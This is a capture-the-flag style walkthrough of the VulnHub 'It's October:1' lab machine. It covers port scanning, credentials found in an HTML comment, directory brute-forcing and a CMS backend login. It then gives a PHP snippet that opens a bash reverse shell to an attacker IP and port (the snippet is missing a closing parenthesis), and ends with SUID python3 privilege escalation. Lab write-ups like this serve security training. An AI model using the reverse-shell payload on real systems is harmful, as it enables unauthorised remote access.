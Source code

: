 # It's October:1 - VulnHub

[My Tomcat Host:1 VulnHub link](https://www.vulnhub.com/entry/its-october-1,460/)

## arp scan to find out our machine ip address on the network
![arp-scan](images/ItsOctober-1/arp-scan.png)

we found out our target ip address is 192.168.56.104

## Nmap
first we need to check what ports and services are available for us in the target machine using nmap tool:
![nmap-scan](images/ItsOctober-1/nmap-scan.png)

**command exaplain:**

**nmap** - network scanner tool used to discover hosts and services on machines.

**-sC** - preforming script scan using default scripts.

**-sV** - preforming service version detection.

**-oA** - output in all formats.

it is recommanded to scan the machine at the background for all ports while enumerating the machine, becuase all ports scan found the same ports I wont show it.

from the nmap scan we discovered 4 ports are open:

*port 22* - ssh OpenSSH.

*port 80* - Apache httpd.

*port 3306* - MYSQL.

*port 8080* - Apache httpd.

## httpd servers:

first we visit the two websites that are available to us:

*on port 80*

![web-port-80](images/ItsOctober-1/web-port-80.png)

*on port 8080*

![web-port-8080](images/ItsOctober-1/web-port-8080.png)

if we investigate the two websites we discover on My Notes website html code(on port 8080):

```html
<!DOCTYPE html>
<html>
<head>	
	<title>My Note</title>
</head>
<body>
	<img src="mynote.jpg" width="100%">
	<!-- 
		<a href="mynote.txt">My Note</a>
	 -->
</body>
</html>
```

when we visit http://192.168.56.104:8080/mynote.txt we get the following credentials:

username: admin

password: adminadmin2

now usually when enumarating http website we should run on the background tool to discover hidden pages or directories

I will be using gobuster:

![gobuster-scan](images/ItsOctober-1/gobuster.png)

**command exaplain:**

**gobuster** - tool used to brute-force: URIs in web sites,DNS subdomains and Virtual Host names on web servers.

**dir** - directory brute-force mode.

**-u** - target url.

**-w** - wordlist to use in the brute-force.

**-o** - file output.

**-t** - maximum number of threads to use.

from the scan we got interesting page: /backend - managing section for the website.

we got a login screen were we get to use the credentials we found earlier.

and we got in!

![web-backend](images/ItsOctober-1/backend-web.png)

now, we need to find a way to get a shell probably by creating new page that can get us a reverse shell.

after searching this backend section, found a way to add new page in cms section:

![cms](images/ItsOctober-1/cms.png)

a little searching on google about the October framework (the website build in framework) tells us it's a php framework, in order to add a new page with php code we need to add the php code in the code section in a function called onStart:

```php
	function onStart() 
	{
		exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.103/1234 0>&1'"
	}
```

![reverseshell-code](images/ItsOctober-1/php-reverse-shell-code.png)

192.168.56.103 - attacker ip address.

1234 - attacker port.

if we save the page, open listening on port 1234 using netcat and browse to the page created we get a shell:

![initial-shell](images/ItsOctober-1/init-shell.png)

after getting the initial shell, we do some enumarating: investigating the existing users, maybe sudo permissions or running services at localhost, but found nothing.

then we search for files with suid as root - suid is special type of file permissions to run a file as it's owner, so when we run file with root owner and suid we are running as root, we can use this files for privilege escalation to get to root.

in order to find suid root files:

![suid-search](images/ItsOctober-1/suid-search.png)

one of the executable file set as root is python3!

we can use to pass command to the shell (as root) and get a shell:

![root](images/ItsOctober-1/root.png)

and we got to root!
